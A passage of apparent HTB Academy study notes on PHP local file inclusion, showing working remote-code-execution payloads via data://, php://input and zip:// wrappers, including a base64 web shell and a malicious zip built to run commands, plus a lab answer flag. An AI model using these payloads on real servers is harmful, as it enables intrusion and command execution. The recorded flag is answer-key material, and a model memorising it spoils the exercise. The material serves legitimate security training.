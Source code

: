 
`http://example.com/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id`

Input Wrapper
=============

Similar to the data wrapper, the input wrapper can be used to include external input and execute code. It also needs the allow_url_include setting enabled. 
The following curl command sends a POST request with a system command and then includes it using php://input, which gets executed by the page.

`curl -s -X POST --data "<?php system('id'); ?>" "http://example.com/index.php?language=php://input"`

Zip Wrapper
===========

The zip wrapper can prove useful in combination with file uploads. If the website allows uploading arbitrary files, an attacker can upload a malicious zip 
file and include PHP code. This wrapper isn't enabled by default and can be installed with the command below:

`apt install phpX.Y-zip`

***X.Y is the php version*** 

Follow the steps below to create a malicious archive.
```
1. echo '<?php system($_GET['cmd']); ?>' > exec.php

2. zip malicious.zip exec.php

3. rm exec.php
```
Next, copy malicious.zip to the webroot to simulate the upload. The files in the zip archive can be referenced using the `#` symbol, which should be URL-encoded 
in the request. For example, the URL below can be used to include exec.php and then execute code using the cmd parameter.

`http://example.com/index.php?language=zip://maliciouse.zip%23exec.php&cmd=id`

in the example above `#` is encoded to `%23` to prevent the browser from recognizing it as a fragment.

### HTB Academy Questions

1. Gain command execution using one of the PHP wrappers discussed in this section. Submit the contents of the flag.txt file located in the /secrets directory.

A. 62eb4f8836329caec43389971b683ec8

Remote File Inclusion
=====================

As the name suggests, Remote File Inclusion or RFI occurs when a website allows the inclusion of remotely hosted files. The impact of this vulnerability can be low or
high, depending on the server's configuration.

